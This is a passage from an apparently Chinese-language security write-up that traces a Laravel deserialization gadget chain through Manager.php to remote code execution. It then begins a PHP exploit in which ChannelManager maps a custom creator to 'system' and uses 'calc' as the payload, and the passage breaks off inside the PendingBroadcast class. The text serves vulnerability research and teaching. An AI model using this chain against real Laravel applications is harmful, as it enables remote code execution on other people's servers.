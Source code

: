 ## POC链-3
> 跟进 `src/Illuminate/Support/Manager.php` 中的 `__call()` 方法，其调用 `driver()` 方法

<img src="./images/poc-3-1.png" alt="">

> 跟进 `createDriver()` 方法，当 `$this->customCreators[$driver]` 存在时调用 `callCustomCreator()` 方法，进一步跟进 `callCustomCreator()` 方法，发现 `$this->customCreators[$driver]` 和 `$this->app)` 均是可控的，因此可以触发 RCE

<img src="./images/poc-3-2.png" alt="">

### exp
```php
<?php
namespace Illuminate\Notifications {
    class ChannelManager {
        protected $app;
        protected $customCreators;
        protected $defaultChannel;
        public function __construct() {
            $this->app = 'calc';
            $this->defaultChannel = 'H3rmesk1t';
            $this->customCreators = ['H3rmesk1t' => 'system'];
        }
    }
}


namespace Illuminate\Broadcasting {
    use  Illuminate\Notifications\ChannelManager;
    class PendingBroadcast {
        protected $events;
```